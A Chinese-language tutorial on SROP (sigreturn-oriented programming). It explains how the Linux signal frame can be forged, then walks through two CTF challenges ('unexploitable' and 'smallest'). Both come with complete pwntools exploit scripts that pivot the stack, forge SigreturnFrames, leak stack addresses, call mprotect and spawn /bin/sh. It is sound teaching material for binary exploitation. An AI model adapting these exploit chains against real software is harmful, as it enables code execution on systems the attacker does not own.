# Sigreturn Oriented Programming (SROP) Attack攻击

## ROP攻击的前提条件

要完成一个成功的ROP攻击，需要有很多前提条件，这里列举几个最重要的：

1. 首先必须要有一个buffer overflow的漏洞（当然这个前提基本上所有攻击都必须得有）；
2. 攻击者需要事先决定好完成攻击过程的所有gadgets。对于上面提到的赋值操作，总共只需要3个gadgets，每个gadget最长两条指令，但是如果需要进行一些复杂的操作，就有可能需要有很多gadgets；除了gadgets的数量多之外，单个gadget的指令数也需要考虑；
3. 攻击者需要在被攻击程序所在的进程地址空间中找到所有的这些gadgets的首地址，并且将其填在栈的合适位置上。

现在操作系统中的一系列保护机制（比如ASLR），使得寻找gadgets的地址变得更难了。而且对于攻击者来说，他攻击每个不同的应用程序都需要单独精心构造大量的gadgets，这也使得ROP的可复用性变得很差。

## SROP攻击原理

SROP的全称是Sigreturn Oriented Programming。在这里`sigreturn`是一个系统调用，它在unix系统发生signal的时候会被间接地调用。

### Signal in Unix-like System

Signal这套机制在1970年代就被提出来并整合进了UNIX内核中，它在现在的操作系统中被使用的非常广泛，比如内核要杀死一个进程（`kill -9 $PID`），再比如为进程设置定时器，或者通知进程一些异常事件等等。

当内核向某个进程发起（deliver）一个signal，该进程会被暂时挂起（suspend），进入内核（1），然后内核为该进程保存相应的上下文，跳转到之前注册好的signal handler中处理相应signal（2），当signal handler返回之后（3），内核为该进程恢复之前保存的上下文，最后恢复进程的执行（4）


在这四步过程中，第三步是关键，即如何使得用户态的signal handler执行完成之后能够顺利返回内核态。在类UNIX的各种不同的系统中，这个过程有些许的区别，但是大致过程是一样的。这里以Linux为例：

在第二步的时候，内核会帮用户进程将其上下文保存在该进程的栈上，然后在栈顶填上一个地址`rt_sigreturn`，这个地址指向一段代码，在这段代码中会调用`sigreturn`系统调用。因此，当signal handler执行完之后，栈指针（stack pointer）就指向`rt_sigreturn`，所以，signal handler函数的最后一条`ret`指令会使得执行流跳转到这段sigreturn代码，被动地进行`sigreturn`系统调用。下图显示了栈上保存的用户进程上下文、signal相关信息，以及`rt_sigreturn`：



我们将这段内存称为一个`Signal Frame`。

在内核`sigreturn`系统调用处理函数中，会根据当前的栈指针指向的`Signal Frame`对进程上下文进行恢复，并返回用户态，从挂起点恢复执行

### Signal机制缺陷利用

内核替用户进程将其上下文保存在`Signal Frame`中，然后，内核利用这个`Signal Frame`恢复用户进程的上下文。这个`Signal Frame`是被保存在用户进程的地址空间中的，是用户进程可读写的；而且内核并没有将保存的过程和恢复的过程进行一个比较，也就是说，在`sigreturn`这个系统调用的处理函数中，内核并没有判断当前的这个`Signal Frame`就是之前内核为用户进程保存的那个`Signal Frame`。
因此，完全可以自己在栈上放好上下文，然后自己调用re_sigreturn，跳过步骤1、2。此时，我们将通过步骤3、4让内核把我们伪造的上下文恢复到用户进程中，也就是说我们可以重置所有寄存器的值，一次到位地做到控制通用寄存器，rip和完成栈劫持。

### 一个简单的攻击

假设一个攻击者可以控制用户进程的栈，那么它就可以伪造一个`Signal Frame`，如下图所示：


在这个伪造的`Signal Frame`中，将`rax`设置成59（即`execve`系统调用号），将`rdi`设置成字符串`/bin/sh`的地址（该字符串可以是攻击者写在栈上的），将`rip`设置成系统调用指令`syscall`的内存地址，最后，将`rt_sigreturn`手动设置成`sigreturn`系统调用的内存地址。那么，当这个伪造的`sigreturn`系统调用返回之后，相应的寄存器就被设置成了攻击者可以控制的值，在这个例子中，一旦`sigreturn`返回，就会去执行`execve`系统调用，打开一个shell。
这是一个最简单的攻击。在这个攻击中，有4个前提条件：

1. 攻击者可以通过stack overflow等漏洞控制栈上的内容；
2. 需要知道栈的地址（比如需要知道自己构造的字符串`/bin/sh`的地址）；
3. 需要知道`syscall`指令在内存中的地址；
4. 需要知道`sigreturn`系统调用的内存地址。

### 利用SROP构造系统调用串（System call chains）

通过再额外添加一个对栈指针`rsp`的控制，可以实现连续的系统调用：


另外需要把原来单纯的`syscall` gadget换成`syscall; ret` gadget。在这个过程中，每次`syscall`返回之后，栈指针都会指向下一个`Signal Frame`，因此，在这个时候执行`ret`指令，就会再次调用`sigreturn`系统调用。这样就可以通过操作栈来达到连续进行系统调用的效果。

### 两个重要的gadgets

#### sigreturn

`sigreturn`这个系统调用和别的系统调用有一个不同的地方，即一般的应用程序不会主动调用它，而是像之前介绍的，由内核将相应地址填到栈上，使得应用进程被动地调用。因此在系统中一般会有一段代码专门用来调用`sigreturn`，在不同的类UNIX系统中，这段代码会出现在不同的位置



其中在`Linux < 3.11 ARM`（也就是大部分现在Android所使用的内核），以及`FreeBSB 9.2 x86_64`，都可以在固定的内存地址中找到这个gadget，而在其它系统中，一般被保存在`libc`库的内存中，如果有ASLR保护的话似乎没有那么容易找到。
如果将`sigreturn`当做一个系统调用来看待的话，那么其实这个单独的gadget并不是必须的。因为我们可以将`rax`寄存器设置成15（sigreturn的系统调用号），然后调用一个`syscall`，效果和调用一个`sigreturn`是一样的。

#### syscall;ret



如果是`Linux < 3.3 x86_64`（在Debian 7.0， Ubuntu Long Term Support， CentOS 6系统中默认内核），则可以直接在固定地址`[vsyscall]`中找到这段代码片段。其中`vsyscall`是用来加速`time()`，`gettimeofday()`和`getcpu()`这三个系统调用的机制，虽然现在已经被`vsyscall-emulate`和`vdso`机制所代替，但在稍微比较早一点的内核中依然是被默认支持的。

## Linux下的SROP

可以直接调用pwntools的SigreturnFrame来快速生成SROP帧，需要注意的是，pwntools中的SigreturnFrame中并不需要填写rt_sigreturn的地址，我们只需要确保执行rt_sigreturn的时候栈顶是SigreturnFrame就行，因此我们可以通过syscall指令调用rt_sigreturn而不必特意去寻找这个调用的完整实现。此外，由于32位分为原生的i386（32位系统）和i386 on amd64（64位系统添加32位应用程序支持）两种情况，这两种情况的段寄存器设置有所不同

```python
    # 原生i386
    context.arch = 'i386'
    SROPFrame = SigreturnFrame(kernel='i386')

    # amd64上运行的32位程序
    context.arch = 'i386'
    SROPFrame = SigreturnFrame(kernel='amd64')
```

### SROP实例1

例，`~/pwnable.kr-unexploitable/unexploitable`



栈溢出，got表中没有system，也没有write，puts之类的输出函数，没办法泄露libc，使用ROPgadget也搜不到syscall。不过通过[ropper](https://github.com/sashs/Ropper)可以搜索到一个syscall（ROPgadget无法把单独的syscall识别成一个gadget）



不过找不到给rsi，rdi等寄存器赋值的gadget。这就意味着我们也没办法直接通过ROP实现getshell。我们注意到read读取的长度是0x50f，而栈溢出只需要16字节就能够到rip。可以溢出的长度远大于SigreturnFrame的长度，所以我们可以尝试使用SROP getshell
选择直接调用sys_execve执行execve(‘/bin/sh’, 0, 0)，由于syscall实际上是拆分了mov edx, 50Fh这条指令，执行完syscall之后是两个\x00无法被解释成合法的指令，所以我们没办法用SROP调用read。所以考虑用程序中原有的read读取”/bin/sh\x00”。
由于找不到给rsi传值的gadget，所以考虑通过修改rbp来修改rax, 进而修改rsi。我们先劫持一下rbp到0x60116c



0x60116c实际上为一个可写的地址，用作之后的读写操作。

```python
    syscall_addr = 0x400560
    set_read = 0x40055B
    read_addr = 0x400571
    fake_stack_addr = 0x60116c
    fake_rbp_addr = 0x60116c
    binsh = 0x60115c    # buf的偏移为0x10，而在栈上的位置为[rbp+buf]=rbp-0x10

    p = process('./unexploitable')

    payload = 'A'*16
    payload += p64(fake_stack_addr)  # 劫持rbp
    payload += p64(set_read)    # 劫持rip,再一次执行read函数(包括前面为传参做的准备)
    '''
     劫持rbp到 0x60116c，此时buf在栈上的地址就变成了0x60115c，这里会执行两次leave，第一次是read函数执行完紧接着的leave指令,接着RIP被劫持为set_read，所以还会执行一次read函数，之后再执行一次call _read后的leave指令，即构造stack pivot
    '''
    p.send(payload)
    sleep(3)
```




因为第二次的leav把栈指针劫持到0x601174,而此时的RIP又指向了mian函数中的retn，所以把第二次输入替换成ROP链就可以继续进行操作。这里在0x601174接rt_sigreturn，后面接SigreturnFrame，就可以完成SROP，syscall需要设置rax=0xf才能获取shell，对于i386/amd64的返回值一般保存在eax/rax中，而read函数返回值是其成功读取的字符数，所以可以再次调用read函数，输入十五个字符，设置rax为0xf，然后指向到retn调用syscall，触发rt_sigreturn

```python
    context.arch = 'amd64'
    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = binsh   # sys_execve第一个参数
    frame.rsi = 0   # sys_execve第二个参数
    frame.rdx = 0   # sys_execve(第三个参数)
    frame.rip = syscall_addr    # 执行sys_execve("/bin/sh\x00",0,0)

    payload = 'A'*0x10
    payload += p64(fake_stack_addr+0x10)    # 此处对应的栈地址为0x60116c,内容设置为0x60117c,为第三次read后的leave指令做准备，第二次read后，leave执行会将此处对应的值放到rbp中(push rbp)
    payload += p64(read_addr)   # 此处对应栈地址0x601174(0x6c+0x8),即rip的指向，通过retn劫持rip到read_addr(rsi, rdi, rdx不变，调用read，利用之后的输入设置rax = 15)
    payload += p64(fake_rbp_addr)   # 此处对应地址为0x60117c(0x74+0x8),即fake_stack_addr+0x10,leave执行之后rsp变为fake_stack_addr+0x10+8=0x601184，rbp变为0x60116c
    payload += p64(syscall_addr) # 此处对应栈的地址为0x601184,第三次read后的retn执行之后，劫持rip执行syscall(此前已经通过第三次输入将rax置为15(0xf))触发rt_sigreturn,此时0x801184为栈顶
    payload += str(frame)   # SigreturnFrame

    p.send(payload)
    sleep(3)
    b = '/bin/sh\x00'.ljust(15,'a') # 因为还是使用的第二次调用read的状态（rsi, rdi, rdx不变），所以这里同样是读到0x60115c,开头需设置为'/bin/sh\x00'
    p.send(b)
    sleep(1)
    p.interactive()
```



### SROP实例2

例，`~/360ichunqiu 2017-smallest/smallest`
程序很简单，只有几句简单的汇编指令



通过汇编指令可以看到，实际上就只是一个read函数的功能调用，而且buf为rsp即栈指针所指向的栈顶，所以这个程序只要输入，就会造成溢出。



由于开启了NX/DEP保护，所以并不能输入shellcode来获取shell，但是可以通过SROP利用mprotect修改内存页属性+shellcode来getshell。程序没有bss段，只能选择先用mprotect修改一片不可写内存为可写或者直接写在栈上。前一种方案势必要使用SROP，从而造成栈劫持，而新栈上的数据无法控制，会导致程序retn后崩溃。因此只能选择写shellcode在栈上。这就需要泄露栈地址。可以先用sys_read读取1个字节长度使rax=1，然后调用sys_write(调用号为1)泄露数据,程序设置buf的指令是`mov rsp, rsi`，所以直接返回到这行指令上就可以泄露rsp地址。

```python
    context.update(os="linux",arch="amd64")
    syscall_addr = 0x4000BE
    start_addr = 0x4000B0
    set_rsi_rdi = 0x4000B8
    shellcode = asm(shellcraft.amd64.linux.sh())

    p = process('./smallest')

    payload = p64(start_addr)   # 使程序重新执行，获取输入，进而设置rax为1
    payload += p64(set_rsi_rdi) # mov rsi, rsp; mov rdi, rax; syscall; retn，此时相当于执行sys_write(1, rsp, size)
    payload += p64(start_addr)  # 重新执行程序，方便后续操作

    p.send(payload) # 第一次执行程序，输入payload，使能够第二次输入通过返回值修改rax为1

    sleep(3)
    # p.send(payload[8:8+1])
    p.send('\xb8') # 利用read读取一个字符，设置rax=1,因为输入会修改rsp，一个字符会修改rsp的低8位，为了使程序能够正确执行到0x4000b8,所以这里只能发送0xb8(设置rdi和rdix执行sys_write(1,rsp,size))
    stack_addr = u64(p.recv()[8:16])
    log.info("stack_addr = %#x",stack_addr)
```

程序执行后再一次返回到start，因此接下来程序应该继续执行一次read.利用这次read使用SROP执行sys_read，读取payload(以start_addr开头)后将栈指针劫持到stack_addr,frame_mprotect frame执行完之后将rsp置为stack_addr,内容为start_addr,使程序能够重新执行，如果直接使用frame_mprotect frame,因为不知道start_add对应的栈地址，所以并不能将rsp指向start，这样也就不能让程序在执行完frame_mprotect frame之后再回到satrt重新执行程序来获取shellcode进而getshell，所以这这里需要先通过frame_read将start_addr读到一个可控的栈地址。

```python
    frame_read = SigreturnFrame()   # 设置read的SROP帧
    frame_read.rax = constants.SYS_read
    frame_read.rdi = 0
    frame_read.rsi = stack_addr
    frame_read.rdx = 0x300
    frame_read.rsp = stack_addr # read_frame读取payload的位置，可控的栈地址，方便后续程序重新执行
    frame_read.rip = syscall_addr

    payload1 = p64(start_addr)   # 返回到start重新执行sys_read，利用返回值设置rax=0xf，触发SROP
    payload1 += p64(syscall_addr)
    payload1 += str(frame_read)
    p.send(payload1) # 泄露栈地址之后程序执行的read
    sleep(3)
    p.send(payload1[8:8+15]) # 输入payload后程序重新执行后的read，通过返回值设置rax=0xf，触发SROP
    sleep(3)

    # 此时通过frame_read调用read函数获取输入到stack_addr,payload以start_addr开头
    frame_mprotect = SigreturnFrame()
    # int mprotect(const void *start, size_t len, int prot);
    frame_mprotect.rax = constants.SYS_mprotect
    frame_mprotect.rdi = stack_addr & 0xFFFFFFFFFFFFF000
    frame_mprotect.rsi = 0x1000
    frame_mprotect.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
    frame_mprotect.rsp = stack_addr # 将rsp置为stack_addr,使mprotect frame执行完之后程序能够通过retn再重新执行
    frame_mprotect.rip = syscall_addr

    payload2 = p64(start_addr)
    payload2 += p64(syscall_addr)
    payload2 += str(frame_mprotect)

    p.send(payload2) # frame_read触发的read获取输入
    sleep(3)
    p.send(payload2[8:8+15]) # 重新执行到start，read函数获取输入,触发SROP
    sleep(3)
    # rsp=stack_addr即saart的地址，再一次执行read
    payload = p64(stack_addr+0x10)  # ret到shellcode的首地址
    payload += shellcode
    p.send(payload)
    sleep(3)
    p.interactive()
```





```python
    # 通过向泄露的栈地址写入'/bin/sh\x00'，然后执行sys_execv('/bin/sh\x00',0,0)getshell
    from pwn import *
    context.arch = 'amd64'
    syscall_addr = 0x4000BE
    start_addr = 0x4000B0
    set_rsi_rdi = 0x4000B8

    p = process('./smallest')

    payload = p64(start_addr)  
    payload += p64(set_rsi_rdi)
    payload += p64(start_addr)
    p.send(payload)

    sleep(3)
    # p.send(payload[8:8+1])
    p.send('\xb8')
    stack_addr = u64(p.recv()[8:16])
    log.info("stack_addr = %#x",stack_addr)

    frame_read = SigreturnFrame()
    frame_read.rax = constants.SYS_read
    frame_read.rdi = 0
    frame_read.rsi = stack_addr
    frame_read.rdx = 0x300
    frame_read.rsp = stack_addr
    frame_read.rip = syscall_addr

    payload1 = p64(start_addr)  # 从新执行，读取payload
    payload1 += p64(syscall_addr)
    payload1 += str(frame_read)

    p.send(payload1)
    sleep(3)
    p.send(payload1[8:8+15])    # 触发SROP
    sleep(3)

    frame_execve = SigreturnFrame()
    frame_execve.rax = constants.SYS_execve
    frame_execve.rdi = stack_addr+0x108 # len(str(frame_execve))+8+8
    frame_execve.rsp = stack_addr
    frame_execve.rip = syscall_addr

    payload2 = p64(start_addr)   # 重新执行读取payload
    payload2 += p64(syscall_addr)
    payload2 += str(frame_execve)
    payload2 += '/bin/sh\x00'

    p.send(payload2)
    sleep(3)
    p.send(payload2[8:8+15])
    sleep(3)
    p.interactive()
```


